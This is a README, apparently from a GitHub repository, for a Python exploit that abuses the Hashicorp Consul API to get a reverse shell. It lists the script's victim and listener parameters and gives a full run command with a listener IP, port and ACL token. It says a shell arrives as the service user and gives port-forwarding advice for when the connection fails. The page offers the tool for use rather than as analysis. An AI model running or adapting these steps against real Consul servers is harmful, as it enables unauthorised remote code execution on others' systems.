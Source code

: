 ## This exploit helps you to get a reverse shell, exploiting the Hashicorp-Consul service via API, not using tools like metasploit

· When executing the script with python3 with the --help parameter, it asks us for a series of parameters
    
    --rhost RHOST  remote host  (ip of the victim machine, if not specified, 127.0.0.1 will be used)
    --rport RPORT  remote port  (port where the consul API is executed, if not specified, 8500 will be used)
    --lhost LHOST  local host   (ip where the shell will be received)
    --lport LPORT  local port   (port where the shell will be received)
    --token TOKEN  acl token    (acl token needed to authenticate with the api)

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit1.png">


· If we have what is necessary, we can give it the arguments and run it, example:

    python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.10 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5


· When executing the script with its arguments we should see a message with a + which indicates that the request has been sent correctly

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit2.png">


· Checking your listener, in a couple of seconds you should get a shell as the user running the service

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit3.png">


· In case it detects that it cannot connect to the host, it will give a message, check the port is exposed and use port forwarding if necessary, then try again

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit4.png">
